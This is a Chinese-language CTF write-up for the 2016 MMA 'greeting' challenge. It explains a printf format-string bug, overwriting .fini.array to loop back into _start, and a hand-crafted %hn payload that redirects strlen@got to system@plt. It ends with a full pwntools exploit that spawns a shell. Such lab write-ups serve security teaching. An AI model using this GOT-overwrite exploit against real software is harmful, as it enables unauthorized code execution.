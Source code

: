 [toc]

## MMA CTF 2nd 2016-greeting

### 总结

本题主要为`printf`格式化字符串漏洞，最好的方式是手写`fmt payload`，然后有一个新的知识点：

- pwntools的`fmtstr_payload`不是特别好用，特别是只想写低字节的时候，还是得手动写`fmt_payload`，抽个时间自己写个格式化`payload`生成函数吧。也不是第一次在这儿折腾了。
- 一个新的知识点：程序在初始化的时候，会依次调用`init.array`中的函数指针；在`main`函数执行完退出的时候，依次调用`.fini.array`中的函数指针。这两个段基本都是可读可写的。
- 可以利用`printf`将`fini.array`数组中的第一个元素覆盖为`main`函数的地址，或者`_start`函数的地址，可以循环运行`main`函数。本题只能多循环利用1次，之后就会报错。因为`fini.array`段的只有一个指针大小。

### 题目分析

#### checksec

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228162702.png)

#### 函数分析

- main：

  ![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228162758.png)

  `main`函数中，首先接收`stdin`的输入，最多输入`64`个字符，然后将输入的内容进行拼接，拼接后直接`printf`打印。

- getnline：

  ![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228164153.png)

  就是普通的读取输入的函数。注意，这里调用了`fgets`，`strchr`，`strlen`函数。

#### 漏洞点

很明显，格式化字符串漏洞。不过在查看文件，发现调用过`system`函数。同时`got`可读可写，所以考虑将某个函数的`got`表写为`system@plt`。然后想办法调用`/bin/sh`。

这里有个问题，就是`printf`打印完后，直接结束程序运行。那么，基本是没有办法通过一次格式化漏洞就获取`shell`的，要想覆盖`eip`就得泄露栈地址，不可能一边泄露栈地址一边往栈地址上写。因此，需要研究一下，怎样能够让程序能再一次回到`main`函数。

### 知识点

`main`函数并不是程序运行的起点，我们至少直到，是`__libc_start_main`函数，调用的`main`函数。网上有一些资料，解析`x86`程序运行的初始化函数执行流，详情请见[这个地址](http://dbp-consulting.com/tutorials/debugging/linuxProgramStartup.html)。这里，只拿出一张图分析：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/init.jpg)

可以看到，`_start`函数中，调用了`__libc_start_main`，然后调用`main`函数。初始化的时候，调用`init.array`数组中的函数指针，退出的时候，调用`fini.array`数组的函数指针。因此，我们只需要把`fini.array`的第一个元素覆盖为`main`或者`_start`函数的地址即可。

在`IDA`中按下`ctrl + S`，可以看到程序段：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228164036.png)

地址为`0x8049934`。

### 利用思路

步骤：

- 第一次`printf`，将`strlen@got`写为`system@plt`，同时，将`0x8049934`，也就是`fini.array`处写为`_start`地址，获得了第二次输入的机会
- 输入`/bin/sh`，会调用`strlen(s)`，实际调用`system("/bin/sh")`。

### EXP

一开始用`fmtstr_payload`生成`payload`，长度为`70`，超过了`64`。因此，手动写一下。

首先观察一下，正常情况下，`0x8049934`处的值是多少：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228164657.png)

我们要改写为`0x80484f0`，不难发现，只需要改写低两个字节即可。高两个字节保持为`0x0804`不动。

准备手动写`payload`。这里先测一下偏移，输入：`aaaa%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x`

输出为：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228165018.png)

好像`aaaa`被分开输出了，说明前面有2位的偏移，于是，修改输入为：`bbaaaa%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x`

再来一次：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228165148.png)

计算一下偏移，`offset = 12`。注意，前面有两个`a`，还有一句`Nice to meet you, `，也就是说，前面已经输出了`0x14`个字符。

直接使用`%n`写四个字节容易写失败，这里使用`$hn`两个字节依次写入。本次要往`str@got(0x8049a54)`写入为`system@plt(0x8048490)`，然后将`fini.array(0x8049934)`的低两个字节写为`0x84f0`根据要格式化字符串要写的内容，对写的字节大小排个序：

> 本次写入，要达到的目的为：
>
> 往`0x8049a56` ------> `0x0804`
>
> 往`0x8049a54` ------> `0x8490`
>
> 往`0x8049934` ------> `0x84f0`

最后结合偏移量，最终的`payload`为：

```python
payload = b'aa'
payload += b'%2032c%21$hn' + b'%31884c%22$hn' + b'%96c%23$hna' + p32(0x8049a56) + p32(0x8049a54) + p32(0x8049934)
```

然后调试一下，看看是不是都改对了：

修改前：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228170509.png)

修改后：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228170902.png)

此时，获得了第二次输入机会：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228171120.png)

输入`/bin/dash`即可得到`shell`。

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210228171225.png)



#### 完整Exp

```python
from pwn import *

io = process('./greeting')

payload = b'aa'
payload += b'%2032c%21$hn' + b'%31884c%22$hn' + b'%96c%23$hna' + p32(0x8049a56) + p32(0x8049a54) + p32(0x8049934)
io.recvuntil("Please tell me your name... ")
print(payload, len(payload))
sleep(1)
io.sendline(payload)
io.recvuntil("Please tell me your name... ")
sleep(1)
io.sendline('/bin/sh')
io.sendline('cat flag')
io.interactive()
```

